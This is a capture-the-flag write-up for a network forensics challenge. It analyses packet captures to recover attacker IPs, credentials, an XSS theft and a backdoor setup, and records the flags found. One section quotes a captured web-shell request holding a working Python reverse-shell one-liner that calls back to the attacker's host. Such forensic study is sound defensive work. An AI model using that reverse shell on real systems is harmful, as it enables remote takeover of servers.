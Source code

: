 # Attack Investigation - Networks

## Challenge

This was a multi-part challenge which unlocked further stages as you completed them. For the sake of brevity I am recording them on a singular document under a singular title instead of creating unique ones for each challenge. 

## Solve:

This challenge was solved by our team MQCyberSec.

### Server & Attacker IP

Filtering for `http` traffic we can see evidence of web directory enumeration from `192.168.1.9` to `192.168.1.10`:

![nw1](https://github.com/user-attachments/assets/186d5fdd-6aea-431b-b774-6d337186c2dd)


`KCTF{192.168.1.10_192.168.1.9} `

### The Real Admin 

Filtering for `http` traffic which doesn't include the attackers IP, we can see admin activity from `192.168.1.3`:

![nw2](https://github.com/user-attachments/assets/77402dd8-9d9b-4433-bdce-6240b0d0cbe2)


`KCTF{192.168.1.3}`


### The Intruder's Identity

Filtering for POST requests from the attacker's IP, can find credentials used to register an account:

![n3](https://github.com/user-attachments/assets/9e59e0b7-2e36-4a5a-a7e0-9940bb3652ff)


`KCTF{theexploiter_exploiter@test}`

### Compromising the Admin

Same filters, can view multiple attempts to login to `admin` and find compromised credentials after final attempt:

![nw4](https://github.com/user-attachments/assets/fb6aec37-4d94-4cd3-b4d1-c8c7dc104e85)


`KCTF{theexploiter_exploiter@test}`

### Initial Reconnaisance

To explore the tools that may have been used, my teammate `Ch1maera` used `tshark` to enumerate `User-Agents`, and found:

`93e4r0-CVE-2014-6271`

Doing a search for "93e4r0-CVE-2014-6271" led to the GitHub repo for `nikto`, a web enumeration tool.

The `User-Agent` can be found with this command:

```
./tshark.exe -r capture1.pcapng -Y "http.user_agent" -T fields -e http.user_agent | Sort-Object | Get-Unique
```

![nw5](https://github.com/user-attachments/assets/e1fb63f8-3726-4b73-93ba-a24e1b296c46)


`KCTF{nikto}`

### Stealing the Sweet

Found evidence of an XSS attack under Statistics->HTTP->Requests:

![nw6](https://github.com/user-attachments/assets/efff728c-5c54-45fb-bdf3-e5d4012a4339)


Filtering for `http` traffic that is not destined for port 80 (credit to my teammate `sealldev`) we can see HTTP packets sent from the server to the attackers IP:

![nw7](https://github.com/user-attachments/assets/f2d41ecb-c191-4f0b-8263-548f0214c2a5)


`KCTF{8881_xss}`

### The Overseer

Moving on to the second packet capture, the first batch of packets show requests to `/cockpit`:

![nw8](https://github.com/user-attachments/assets/53fb0a84-b0ce-48c5-8f67-09013721efa3)


`KCTF{cockpit}`

### The Gatekeeper

To find out the port the server listens on, just check the GET request to `/cockpit/login` above.

`KCTF{9090}`

### The Server's Identity 

Viewing the WebSocket traffic we can see the `host` in the attackers communication with the server is specified as `localhost`:

![nw9](https://github.com/user-attachments/assets/74c82661-4d90-478b-b34c-3cf6170ad639)


`KCTF{localhost.localdomain}`

### Tareq's Secret 

To find the password, filter for `http` requests to `/cockpit/login` and view last (and successful) login attempt:

![nw10](https://github.com/user-attachments/assets/0f02c211-d4c5-43cb-a424-9323b5f286b7)


`KCTF{SecurePass}`

### The Escalation Trick

Moving on to the third and final packet capture, we can filter for `http` requests and sort by length to view commands requested as URIs:

![nw11](https://github.com/user-attachments/assets/3f33caa7-49a2-4203-bb12-8f4b2cbda9a8)


```
 GET /uploads/678e2443a6725.php?cmd=export%20RHOST=%22192.168.1.9%22;export%20RPORT=5074;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22sh%22)%27 HTTP/1.1
```

The command appears to be establishing a reverse shell. Following the tcp stream (credit to `sealldev`) shows attacker executing commands through this shell and reveals the tool used to escalate privileges:

![nw12](https://github.com/user-attachments/assets/adf85837-94a4-43a8-97f4-08c4ceb43775)


`KCTF{awk}`

### The Hidden Door

In the same TCP stream, we can view the commands executed by the attacker to establish a backdoor:

![nw13](https://github.com/user-attachments/assets/c9663e64-f7e6-42fe-a2f5-252497ad9828)

The attacker changes to the `root` directory, creates a hidden directory `.sys` and installs the backdoor via `wget` on port 2081.

`KCTF{/root/.sys/sys_2081}`

### Port Fiesta

In the same TCP stream, we can see the server is started on 10 different ports:

![nw14](https://github.com/user-attachments/assets/8667e2b3-2c82-45df-8095-09b36bccfd1e)


`KCTF{10}`

### The Backdoor's Whisper

Manually checking the ports from the previous question with `tcp.port == <port>`, only port 12345 has any activity:

`KCTF{12345}`

### The Unused Tool 

### Malicious Uploads 

### Shell History
